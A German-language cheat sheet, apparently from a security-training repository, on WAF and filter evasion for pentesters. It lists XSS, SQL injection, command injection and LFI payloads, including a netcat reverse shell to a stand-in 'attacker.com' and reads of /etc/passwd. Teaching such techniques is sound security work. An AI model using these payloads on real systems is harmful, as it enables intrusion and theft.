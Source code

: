 # 🎯 Payload Crafting Tips

**Ziel dieser Datei:**  
Diese Datei bietet eine kompakte Übersicht über Techniken zur Erstellung und Modifikation von Payloads – speziell im Hinblick auf die Umgehung von Web Application Firewalls (WAF), Filtern und anderen sicherheitsrelevanten Eingabekontrollen. Sie richtet sich vor allem an Penetration Tester, CTF-Spieler und Red Team-Mitglieder, die mit komplexen Eingabefiltern konfrontiert sind.

> **Disclaimer:** Diese Inhalte dienen ausschließlich zu Schulungs- und Testzwecken in autorisierten Umgebungen. Die Anwendung in produktiven oder fremden Systemen ohne ausdrückliche Genehmigung ist illegal.



## Inhaltsverzeichnis
- [Typische Encoding-Techniken](#typische-encoding-techniken)
- [Evasion-Techniken bei WAF / Inputfilter](#evasion-techniken-bei-waf--inputfilter)
- [Keywords fragmentieren](#keywords-fragmentieren)
- [Zeitbasierte Payloads (blind testing)](#zeitbasierte-payloads-blind-testing)
- [Beispiele nach Angriffsart](#beispiele-nach-angriffsart)
- [Hinweise](#hinweise)
- [Nützliche Tools](#nützliche-tools)
- [Haftungsausschluss](#haftungsausschluss)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Encoding-Techniken

### 1. **URL-Encoding**
Wird oft verwendet, um Sonderzeichen zu maskieren.

| Zeichen | Encoding |
|--------|----------|
| `space` | `%20` oder `+` |
| `'`     | `%27` |
| `"`     | `%22` |
| `<`     | `%3C` |
| `>`     | `%3E` |
| `&`     | `%26` |
| `=`     | `%3D` |

> Beispiel:  
`<script>alert(1)</script>` → `%3Cscript%3Ealert(1)%3C/script%3E`





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. **Base64-Encoding**
Nützlich bei Befehlseinschleusungen (z. B. in RCEs, SQLi).

Beispiel in PHP:
```php
echo base64_decode('ZWNobyAnSGFja2VkIQ==');

→ Ausgabe: echo 'Hacked!'
```





<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 3. Hex-Encoding / Char-Bypass
Alternative Darstellung für Payloads.

```sql
SELECT CHAR(65,66,67); -- ergibt "ABC"
```

Für XSS:

```html
<script>alert(1)</script>
```
Oder
```html
<svg /onload=String.fromCharCode(97,108,101,114,116)(1)>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Evasion-Techniken bei WAF / Inputfilter
### Zeichen-Splitting / Padding
```html
<scr<script>ipt>
```
```bash
/bin/ba$IFS$IFSsh
```

| Technik                    | Beispiel              |
| -------------------------- | --------------------- |
| **Splitting**              | `<scr<script>ipt>`    |
| **Whitespace Tricks**      | `/bin/ba$IFS$IFSsh`   |
| **Keyword Fragmentierung** | `UNION/**/SELECT`     |
| **Comments**               | `ec/*x*/ho test`      |
| **Case Switching**         | `SeLeCt * FrOm users` |



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Keywords fragmentieren
```sql
UNION/**/SELECT
```
```php
ec/*comment*/ho "test";
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Zeitbasierte Payloads (blind testing)
Nützlich bei blind RCE oder SQLi:

```sql
' OR IF(1=1,SLEEP(5),0) --
```
```bash
ping -c 5 127.0.0.1
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Beispiele nach Angriffsart
### SQL Injection
- ' OR 1=1 --
- `admin'/**/OR/**/1=1--+`
- UNION SELECT NULL,NULL,NULL--
- CONCAT(CHAR(117,115,101,114),CHAR(112,119))



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Remote Code Execution (RCE)
```bash
127.0.0.1|echo hacked
127.0.0.1;nc -e /bin/bash attacker.com 4444
127.0.0.1&&sleep 5
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Cross-Site Scripting (XSS)

```html
<img src=x onerror=alert(1)>
<script>alert(1)</script>
<svg/onload=alert(document.domain)>
```



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### Directory Traversal / LFI

```bash
../../../../etc/passwd
....//....//....//etc/passwd
php://filter/convert.base64-encode/resource=index.php
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Hinweise
- Unterschiedliche Filter verlangen unterschiedliche Bypässe. Teste iterativ.
- In CTFs werden häufig Custom-Filter eingebaut – Payload-Crafting ist oft die Lösung.
- Nutze Burp Suite's Repeater oder Tools wie `wfuzz`, `ffuf`, `sqlmap` für Automatisierung.
- Viele WAFs prüfen nur Signaturen -> ungewöhnliche Kodierungen oder Fragmentierungen helfen oft.


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>



## Nützliche Tools
- [🔍 HackBar (Burp Extension)](https://portswigger.net/bappstore/93c19861f4df4e60bd9d4568cdd97ed6)
- [🧪 PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- [⚡ SecLists (Payload Collections)](https://github.com/danielmiessler/SecLists?utm_source=chatgpt.com)
- [🔎 FuzzDB (Web Fuzzing Payloads)](https://github.com/fuzzdb-project/fuzzdb?utm_source=chatgpt.com)




<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Haftungsausschluss

Dieses Repository dient ausschließlich zu Ausbildungs-, Forschungs- und Demonstrationszwecken im Bereich der IT-Sicherheit.

Alle hier dokumentierten Techniken und Tools dürfen nur in legalen und autorisierten Testumgebungen verwendet werden – z. B. in Labors, CTFs oder mit ausdrücklicher Genehmigung des Eigentümers der Zielsysteme.

Wir distanzieren uns ausdrücklich von jeglicher illegalen Nutzung.
Dieses Projekt richtet sich an White-Hat-Sicherheitsforscher, Ethical Hacker und Auszubildende, die ethisch und rechtlich korrekt handeln.

[Disclaimer](/00-disclaimer/disclaimer.md)

--- 

Stay curious – stay secure. 🔐

🗓️ **Letzte Aktualisierung:** August 2025  
🤝 **Pull Requests willkommen** – Vorschläge für neue Kurse oder Kategorien gerne einreichen!

---
